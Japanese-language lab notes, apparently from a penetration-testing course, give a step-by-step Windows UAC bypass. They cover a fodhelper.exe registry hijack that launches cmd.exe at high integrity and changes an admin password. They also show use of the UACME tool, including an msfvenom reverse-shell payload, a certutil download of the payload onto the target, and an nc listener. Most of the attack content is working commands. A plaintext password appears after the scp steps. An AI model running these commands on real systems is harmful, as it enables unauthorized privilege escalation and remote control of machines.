





# UACByPass

### fodhelper.exe

オペレーティングシステムの言語変更を管理するMicrosoftのサポートアプリケーションであるfodhelper.exeを利用したUACbyPass.

「アプリと機能」のWindows設定画面で「オプション機能の管理」オプションを選択するたびに、このアプリケーションが起動する。


* アプリケーションマニフェスト（プログラム起動時にOSがそのプログラムをどのように処理するかを示す情報を含む XML ファイル）の検査をする

  ```cmd
  cd C:\Tools\privilege_escalation\Sysintern
  sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
  ```

  

  

  * administrator アクセストークンが必要
  * autoelevate フラグが true に設定されているため、管理者ユーザーに同意を求めることなく、実行ファイルが自動的に高信頼性に昇格することが可能

* procmon（Sysinternals suite）で「NAME NOT FOUND」のレジストリを調査する

  * procmonを起動したのち、fodhelper.exeを再起動する

  * Filterで絞り込みを行う

    

    

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーが存在しないことがわかる。

    

    

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーの検索のあと、**HKEY_CLASSES_ROOT**（HKCR）ハイブで同じキーにアクセスし、成功している。

    レジストリーエディターでも確認することができる（regedit)

    

    
    
    詳細を調べるとDelegateExecuteキーの値を特定のCOMクラスIDに設定したのち(Default)動作を実行するという流れのよう

* HKCUハイブ内のms-settingレジストリキーを登録する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  
  ---
  C:\Tools\privilege_escalation\SysinternalsSuite>REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  The operation completed successfully.
  ```

* 次にDelegateExecuteエントリーを追加する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
  ```

  * /v：値の名前を指定
  * /t：型を指定

  

  

* procmonのフィルターを「SUCCESS」に変更する。

  

  

  （Default)のレジストリーキーが実行されている

* 新しいレジストリー値を指定する

  ```
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
  ```

* 再度fodhelper.exeを実行するとコマンドプロンプトが立ち上がる

  

  

  パスワード変更もできることを確認する
  
  ```
  net user admin Ev!lpass
  ```
  
  

### UACME

https://github.com/hfiref0x/UACME

3. UACMeのリポジトリをクーロンする
     * ※masterブランチではなく、v3.2.xのブランチを使用すること

       
       
     * ※Akagi64.exeのコンパイル時はvisual studioのバージョンにあったSDKをプロパティから設定すること
     
       
     
  4. UAC bypass用のリバースシェルを作成する

     ```plaintext
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.17.20.12 LPORT=10010 -f exe > rev_10010_iga.exe
     ```
     
  5. Akagi64.exeとリバースシェルを配送する

     ```plaintext
     # kali
     /home/kali/Documents/tuikakensyu
     scp Akagi64.exe  test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/Akagi64.exe" C:\tmp\igarashi\Akagi64.exe
     ```

     ```plaintext
     # kali
     scp rev_10010_iga.exe test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/rev_10010.exe" C:\tmp\igarashi\rev_10010_iga.exe
     ```
     
  6. UACMeを実行する

     ```plaintext
     # C2Server
     nc -lvnp 10010
     C:\Users\makise\AppData\Roaming>Akagi64_iga.exe 33 C:\Users\makise\AppData\Roaming\rev_10010_iga.exe
     ```
     
  7. 権限昇格できたことを確認する

     ```plaintext
     whoami /all
     ```
     * Mandatory LabelがHighになっていること

     * sedebugprivilegeがついていること
     
